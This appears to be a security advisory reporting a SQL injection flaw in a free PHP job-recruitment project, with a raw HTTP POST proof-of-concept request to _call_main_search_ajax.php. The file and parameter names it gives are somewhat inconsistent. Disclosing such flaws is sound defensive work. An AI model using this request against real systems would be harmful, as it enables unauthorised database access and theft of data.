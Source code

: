 # job-recruitment-in-php has sql injection vulnerability in \_call_main.php via $s1 parameter

## supplier 
https://code-projects.org/job-recruitment-in-php-css-javascript-and-mysql-free-download/
## Vulnerability file
\_call_main_search_ajax.php via $s1 parameter

## describe

In /\_parse/\_call_main_search_ajax.php,there is a sql injection vulnerability. The parameters that can be controlled:  $s1. This function executes the jobtitle parameter into the SQL statement without any restrictions. A malicious attacker could exploit this vulnerability to obtain sensitive information in the server database.

**Code analysis**    

When the parameter value of   $s1  is obtained in the call_main_search_ajax.php, it will be concatenated into SQL statements and executed, which has a SQL injection vulnerability. 

![image-20241231163833127](https://github.com/user-attachments/assets/884867a2-7ede-4a35-aebd-184c8413738a)

## POC

```
POST /_parse/_call_main_search_ajax.php HTTP/1.1
Host: airecruitmentsystem
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8, zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 67
Origin: http://airecruitmentsystem
Connection: close
Referer: http://airecruitmentsystem/_parse/_all_edits.php
Cookie: PHPSESSID=etso55q58ionvmrvpetmaf8urt
Upgrade-Insecure-Requests: 1
Priority: u=0, i

n=1*
```

![image-20241231165235937](https://github.com/user-attachments/assets/c913003b-f50a-47e7-bdbd-7353ece3fbeb)![image-20241225005108179](https://github.com/user-attachments/assets/7084d4b4-70df-43a0-80bb-cd2a7838e754)

**Discover**

西安电子科技大学： 李腾，谢亚轩，刘芮彤